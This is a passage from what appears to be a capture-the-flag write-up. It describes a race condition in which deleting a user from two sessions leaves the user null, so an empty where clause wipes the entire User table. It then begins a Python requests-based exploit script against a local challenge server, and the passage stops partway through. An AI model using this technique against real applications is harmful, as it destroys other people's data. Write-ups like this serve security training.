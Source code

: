 - Session 2 delete `foo` user:

1. POST to `/user/foo/delete`
2. `username` = `foo`
3. `loggedInUsername` = `foo`
4. **`user` = `null`**
5. **Delete table `User` due to empty `where` clause: `User.destory({ where: {} })`**

**Let's write a Python script!**
```python
#!/usr/bin/env python3
import requests
from base64 import b64encode
from bs4 import BeautifulSoup

class Exploit:
    def __init__(self, baseUrl, isLocal, basicAuthUsername, basicAuthPassword):
        self.baseUrl = baseUrl
        self.isLocal = isLocal
        self.basicAuthUsername = basicAuthUsername
        self.basicAuthPassword = basicAuthPassword

    def basicAuth(self):
        token = b64encode(f'{self.basicAuthUsername}:{self.basicAuthPassword}'.encode('utf-8')).decode('ascii')
        return f'Basic {token}'

    def sendRequest(self, session, method, endpoint, data=None):
        isPostMethod = True if method.lower() == 'post' else False
        isGetMethod = True if method.lower() == 'get' else False
        headers = {'Authorization' : self.basicAuth()} if basicAuthUsername is not None and basicAuthPassword is not None else None

        if isPostMethod:
            if self.isLocal:
                response = session.post(f'{self.baseUrl}{endpoint}', data=data)
                return response.text

            response = session.post(f'{self.baseUrl}{endpoint}', data=data, headers=headers)
            return response.text

        if isGetMethod:
            if self.isLocal:
                response = session.get(f'{self.baseUrl}{endpoint}')
                return response.text

            response = session.get(f'{self.baseUrl}{endpoint}', headers=headers)
            return response.text

if __name__ == '__main__':
    isLocal = True
    basicAuthUsername = None
    basicAuthPassword = None
    baseUrl = 'http://localhost:8600'
    exploit = Exploit(baseUrl, isLocal, basicAuthUsername, basicAuthPassword)

    session1 = requests.Session()
    session2 = requests.Session()
    # Register an account
    username = 'foo'
    password = 'bar'
    registerData = {
        'username': username,
        'password': password,
        'profile': 'foobar'
```